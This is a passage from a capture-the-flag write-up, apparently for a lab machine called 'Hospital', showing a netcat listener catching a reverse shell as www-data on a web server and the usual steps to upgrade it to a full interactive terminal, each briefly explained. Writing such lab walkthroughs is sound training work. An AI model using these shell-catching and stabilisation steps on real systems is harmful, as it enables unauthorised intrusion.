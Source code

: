 ![Branching](/assets/images/Hospital/testing_final_phar.png)

Now i will proceed to establish a reverse shell connection:

![Branching](/assets/images/Hospital/establish_shell.png)

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.124] from (UNKNOWN) [10.10.11.241] 6526
bash: cannot set terminal process group (981): Inappropriate ioctl for device
bash: no job control in this shell
www-data@webserver:/var/www/html/uploads$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@webserver:/var/www/html/uploads$ ^Z
zsh: suspended  nc -lvnp 443
                                                                                                                                                                                        
❯ stty raw -echo;fg
[1]  + continued  nc -lvnp 443
                    reset xterm
www-data@webserver:/var/www/html/uploads$ export TERM=xterm
www-data@webserver:/var/www/html/uploads$ export SHELL=bash
```

* ``script /dev/null -c bash``: Spawns a tty
* ``ctrl+z``: puts the shell in background for later doing a treatment
* ``stty raw -echo;fg``: give us the shell back again
* ``reset xterm``: resets the terminal to give us the bash console
* ``export TERM=xterm``: let us do ctrl+l to clean the terminal
* ``export SHELL=bash``: specifies the system that we are using a bash console
